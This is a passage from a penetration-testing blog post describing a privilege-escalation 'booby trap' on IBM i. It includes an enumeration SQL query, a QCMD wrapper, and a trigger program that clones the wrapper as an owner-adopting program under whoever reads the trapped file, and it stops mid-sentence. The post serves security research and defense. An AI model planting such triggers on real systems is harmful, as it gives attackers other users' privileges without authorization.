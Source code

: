 ```yaml
---
title: Booby Trapping IBM i
url: https://blog.silentsignal.eu/2023/03/30/booby-trapping-ibm-i/
source: Silent Signal Techblog
date: 2023-03-31
fetch_date: 2025-10-04T11:18:35.586816
---
```


# Booby Trapping IBM i

[![Silent Signal](/assets/img/s2_avatar.jpg)](/)

Silent Signal

Professional Ethical Hacking Services

### Contact us

2025 © Silent Signal

![Booby Trapping IBM i](/wp-content/uploads/2023/03/indiana_jones_booby_trap.jpg)

# Booby Trapping IBM i

[pz](/authors/pz.html) 2023-03-30

Post-exploitation is a crucial element of any attack aiming for realistic objectives, so it is no surprise that the topic is extensively researched, resulting in a [trove of information](http://attack.mitre.org/) that defenders can rely on to design and implement countermeasures. Unfortunately, owners of IBM i systems do not have the luxury of access to such information right now. This was one of the main ideas we discussed with [Ben Williams](https://www.chilli-it.co.uk/team/ben-williams/) of Chilli IT, who was kind enough to introduce us to IBM’s [Brunch and Learn](https://video.ibm.com/channel/s4Dub4uP9ku) webcast last week, where we discussed our penetration testing experiences from “the POWER island”.

In this blog post we reflect on this problem by providing a technical example. We share a technique that not only allows attackers to escalate their privileges by abusing standard permissions, but can also be useful for defenders to catch perpetrators red handed, and to gain better understanding of their behavior and motives.

[![Clifford Stoll's <a href='https://en.wikipedia.org/wiki/The_Cuckoo%27s_Egg_(book)' target='_blank'>The Cuckoo's Egg</a> is an inspiration for those who are up for some threat hunting](/wp-content/uploads/2023/03/cuckoosegg.jpg)](/wp-content/uploads/2023/03/cuckoosegg.jpg)

Clifford Stoll's [The Cuckoo's Egg](https://en.wikipedia.org/wiki/The_Cuckoo%27s_Egg_%28book%29) is an inspiration for those who are up for some threat hunting

### Basics

In our [first post](https://blog.silentsignal.eu/2022/09/05/simple-ibm-i-as-400-hacking/) about IBM i we noted that the operating system includes a database engine, Db2. This level of integration means that practically all objects of the system are accessible via SQL, a powerful tool to discover and analyze system configuration, and also to identify [potential vulnerabilities](https://blog.silentsignal.eu/2022/09/28/another-tale-of-ibm-i-as-400-hacking/). However, the “database view” of the operating system not only allows us to read data, but lets us insert additional data that can affect the behavior of the system too.

As with most modern relational database management systems, it is possible to create database triggers that can be configured to execute actions when specific events occur.
On IBM i, a database trigger is a special type of object that is associated with a specific [database file](https://www.ibm.com/docs/en/i/7.4?topic=concepts-database-files) or [table](https://www.ibm.com/docs/en/db2/11.5?topic=administration-database-objects) and is triggered automatically when a specific operation is performed on that file or table, such as an `INSERT`, `UPDATE`, or `DELETE` statement. The neat part is that since on IBM i everything is an object, and we have this handy RDBMS interface to manipulate objects, we can also create triggers for *any* (physical) file object!

### Trap Placement

The command to add triggers to *physical files* is [ADDPFTRG](https://www.ibm.com/docs/en/i/7.1?topic=ssw_ibm_i_71/cl/addpftrg.html), which requires at least the following authorities to work (for more details see the linked documentation):

* For the target physical file object:
  + `*READ`, `*OBJOPR`, and `*OBJALTER` authorities **or**
  + `*OBJMGT` authority
* For the library that contains the target object:
  + `*EXECUTE` privileges

The other ingredient of our attack is that triggers can be defined so that they execute programs. `*EXECUTE` authority is required on the trigger program and its library too, but this is usually not a problem since we will create these programs.

The SQL query below enumerates all the files that are candidates for this attack, matching the above criteria:

```
SELECT
    OFILE.SYSTEM_OBJECT_SCHEMA,
    OFILE.SYSTEM_OBJECT_NAME,
    OFILE.AUTHORIZATION_NAME,
    OFILE.OBJECT_AUTHORITY
FROM
    QSYS2.OBJECT_PRIVILEGES OFILE
JOIN QSYS2.OBJECT_PRIVILEGES OL ON
    OL.SYSTEM_OBJECT_NAME = OFILE.SYSTEM_OBJECT_SCHEMA AND
    OFILE.AUTHORIZATION_NAME = OL.AUTHORIZATION_NAME
WHERE
    ((OFILE.DATA_READ = 'YES' AND
    OFILE.OBJOPER = 'YES' AND
    OFILE.OBJALTER = 'YES') OR
    OFILE.OBJMGT = 'YES') AND
    OL.DATA_EXECUTE='YES' AND
    OFILE.OBJECT_TYPE = '*FILE' AND
    OL.OBJECT_TYPE = '*LIB' AND
    OFILE.SYSTEM_OBJECT_NAME NOT LIKE 'Q%' AND
    OFILE.AUTHORIZATION_NAME NOT LIKE 'Q%' AND
    OFILE.AUTHORIZATION_NAME <> OFILE.OWNER
```

In our test system, this query produces the following output with `USERB2` (special authority: `*NONE`) profile:

```
SYSTEM_OBJECT_SCHEMA SYSTEM_OBJECT_NAME AUTHORIZATION_NAME OBJECT_AUTHORITY
---------------------------------------------------
USERB1 SAVE1 *PUBLIC *ALL
USERB1 USERDB *PUBLIC *ALL
```

### Assembly

`USERB1/USERDB` is a suitable candidate for setting up an SQL trigger to perform privilege escalation. Since we can’t predict who exactly will fall in our trap, we will create individual “backdoor” programs that would grant us access with the privileges of their corresponding victims. We set the stage for our exploit with the following steps:

1. Create a `QCMD` wrapper `*PGM` because the default object authorities don’t allow [duplicating](https://www.ibm.com/docs/en/i/7.3?topic=ssw_ibm_i_73/cl/crtdupobj.html) the built-in `QSYS/QCMD` object.

   You can use the following simple CL script for executing interactive commands:

   ```
    PGM
        CALL QCMD /* Compile to USERB2/FAKEQCMD */
    ENDPGM
   ```
2. Set the `*PGM` authority to `*PUBLIC *ALL`, which allows any user to duplicate the object.
3. Create a library (`PENTESTLIB`) that will contain the duplicated `QCMD` wrappers. Set the authority of the `*LIB` to `*PUBLIC *ALL`, which allows any user to create the `QCMD` wrapper in the library (we should cover OPSEC considerations later :)).
4. Create the following trigger `*PGM` (`USERB2/TRIGGER`) object:

   ```
    PGM
        DCL VAR(&USRPRF) TYPE(*CHAR) LEN(10)
        /* The name of the current user profile. */
        RTVUSRPRF USRPRF(*CURRENT) RTNUSRPRF(&USRPRF)

        /* Verify the existence of the QCMD wrapper. */
        CHKOBJ OBJ(PENTESTLIB/&USRPRF) OBJTYPE(*PGM)
        MONMSG MSGID(CPF9801) EXEC(DO) /* Object &2 in library &3 not found.  */
            /* Duplicate the QCMD wrapper with the name of the current user profile. */
            CRTDUPOBJ OBJ(FAKEQCMD) FROMLIB(USERB2) OBJTYPE(*PGM) TOLIB(PENTESTLIB) NEWOBJ(&USRPRF)
            CHGPGM PGM(PENTESTLIB/&USRPRF) USRPRF(*OWNER) /* See below */
        ENDDO
    ENDPGM
   ```

   The `CHGPM` command sets up the `*USRPRF` parameter of the duplicated program to `*OWNER`, which works like the SETUID bit on Unix-like systems: when a program gets executed, it takes the user profiles of both the program owner and the current user into account (see our [other post](https://blog.silentsignal.eu/2023/01/20/abusing-adopted-authority-on-ibm-i/) for more details). In our case, the owner will obviously be the user profile that activated the trap and executed the trigger.
5. Add the trigger `*PGM` to the database file (`USERB1/USERDB`). In this example, an `*AFTER` trigger is [configured](https://www.ibm.com/support/pages/restrictions-triggers-trgeventread) for the `*READ` event:

   ```
    ADDPFTRG FILE(USERB1/USERDB) TRGTIME(*AFTER) TRGEVENT(*READ) PGM(USERB2/TRIGGER)
   ```

At this point our trap is ready, we only need to wait for one of the system users to execute a read operation on the `USERB1/USERDB` object.
Once this occurs, our `*PGM` trigger will create a `QCMD` wrapper in the `PENTESTLIB` library with the profile name of the victim, who will also be the owner of the program.
Finally, we can execute the wrapper using a simple `CALL` command, and the resulting shell will...